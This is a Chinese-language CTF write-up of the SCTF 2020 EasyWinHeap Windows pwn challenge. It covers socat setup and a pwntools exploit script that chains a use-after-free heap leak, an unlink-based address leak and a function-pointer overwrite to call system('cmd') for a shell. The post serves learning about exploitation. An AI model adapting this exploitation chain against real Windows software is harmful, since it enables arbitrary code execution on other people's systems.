 ```yaml
---
title: SCTF 2020 EasyWinHeap 入门 Windows Pwn
date: 2020-07-09 00:00:00
categories:
- CTF/Pwn
tags: 
---
```


> 通过本文可以了解到：1.一种在Win下搭建Pwn题环境的方法（socat+pwntools+IDA） 2. Windows用户态程序运行的基本原理与win下一些实用工具 3.Windows堆管理的基本方法。本题的漏洞点是存在悬空指针可以UAF，而且对于该悬空指针可以继续show、edit、free。利用方式为通过UAFleak堆地址，然后通过unlink完成堆上的节点索引的改写进而继续leak出程序基址，进而继续改写堆上的索引节点leak出ucrt的基址，最后继续修改索引节点的函数指针为system并控制参数为cmd即可getshell。

- 题目附件：[sctf_EasyWinHeap.zip](https://xuanxuanblingbling.github.io/assets/attachment/stm32/sctf_EasyWinHeap.zip)
- 运行环境：`Win7 sp1`虚拟机，因为没有用win10，也就没有win10的terminal，所以还是采用[cmder](https://cmder.net/)为本地的终端工具。

## 环境搭建

不同于[winpwn: pwntools for Windows (mini)](https://github.com/byzero512/winpwn)，这里仍然采用pwntools来完成解题，pwntools是不支持本地直接启动windows进程的，所以本地采用socat直接架起来程序，相当于远程环境。

- [socat for windows](https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/)
- [socat 1.7.3.2 for Windows](https://www.cybercircuits.co.nz/web/blog/socat-1-7-3-2-for-windows)
- [socat在Windows下的使用](https://juejin.im/post/5d8dd1b16fb9a04e1135dec5)

```c
socat tcp-listen:8888,fork EXEC:EasyWinHeap.exe,pipes &
```

## 工具

- 
- [socat for windows](https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/)
- [socat 1.7.3.2 for Windows](https://www.cybercircuits.co.nz/web/blog/socat-1-7-3-2-for-windows)
- [socat在Windows下的使用](https://juejin.im/post/5d8dd1b16fb9a04e1135dec5)
- [winpwn: pwntools for Windows (mini)](https://github.com/byzero512/winpwn)

## exp

```python
from pwn import *
#context.log_level = 'debug'
ip = "10.10.10.137";port = 8888
io = remote(ip,port)

sla         = lambda delim,data           :  (io.sendlineafter(delim, data))
add         = lambda size           	  :  (sla("option >\r\n", '1'),sla("size >\r\n", str(size)))
show        = lambda index                :  (sla("option >\r\n", '3'),sla("index >\r\n", str(index)))
edit        = lambda index,data           :  (sla("option >\r\n", '4'),sla("index >\r\n", str(index)),sla("content  >\r\n", data))
free        = lambda index                :  (sla("option >\r\n", '2'),sla("index >\r\n", str(index)))
uu32        = lambda data                 :  u32(data.ljust(4, b'\0'))

# UAF to leak heap
while(1):
    add(32);add(32);add(32)                                         # free block0 or block1, the fd is point to the largest free chunk, it can success leak the heap_base
    free(1);show(1)                                                 # can't free block2 to leak heap_base, because it will merge to the largest free chunk. 
    heap_base = uu32(io.recvuntil("\r\n", drop=True)[:4])-0x630     # and the fd will point to heap_base+0x00c4, it contains NULL byte.
    if heap_base > 0x1000000 :                                      # if the heap_base less than 4 byte, the next step to leak image_base can't success
        break                                                       # because when we leak image_base, before the image_base is the heap_addr 
    io.close();io = remote(ip,port)

log.warn("heap_base:" + hex(heap_base))
list_addr = heap_base + 0x578
block0    = list_addr
block1    = list_addr + 8

# use unlink to make a loop and leak image_base
edit(1,p32(block1)+p32(block1+4))                                   # *(block1 + 4) = block1 + 4 , when show block1, it can leak data in list
add(32);show(1);                                                    # add(32) or free(0) both can trigger unlink
io.recv(4)                                                          # 4 byte heap_addr,if it's only 3 byte, it will be stop to print due to NULL byte
image_base = uu32(io.recvuntil("\r\n", drop=True)[:4])-0x1043
log.warn("image_base:" + hex(image_base))

# use loop to leak ucrt
puts_iat = image_base + 0x20c4
edit(1, p32(puts_iat)+p32(0)+p32(block0));show(1)                   # modify block2content point to block0
ucrt_base = u32(io.recv(4))-0xb89f0
log.warn("ucrt_base:" + hex(ucrt_base))
system = ucrt_base+0xefda0

# modify func pointer to system and tigger it
edit(0, 'cmd\x00')                                                  # normal write, add "cmd" to block0content
edit(2, p32(system)+p32(heap_base+0x600))                           # modify block0 func to system and repair block0content
show(0)                                                             # trigger system(cmd)
io.interactive()
```

## 参考

- [SCTF 2020 PWN](https://sh1ner.github.io/2020/07/07/SCTF-2020-PWN/)
- [Windows-pwn解题原理&利用手法详解](https://www.anquanke.com/post/id/188170#h3-8)
- [Windows Pwn 入门](https://ble55ing.github.io/2019/08/18/WindowsPwn1/)
- [Windows下32位进程内存模型](http://www.xumenger.com/01-windows-process-memory-20170101/)
- [SUCTF 2019 PWN](https://kirin-say.top/2019/08/19/SUCTF-2019-PWN/)
- [CTF中Windows下Pwn题的部署？](https://www.zhihu.com/question/286944913)
- [Windows pwn 的一些感悟](http://blog.eonew.cn/archives/1245)
- [xman 2017 Day 7:Windows pwn](https://www.xctf.org.cn/library/details/9d1cd32600eb05d13abe05bea120fc4c8b286019/)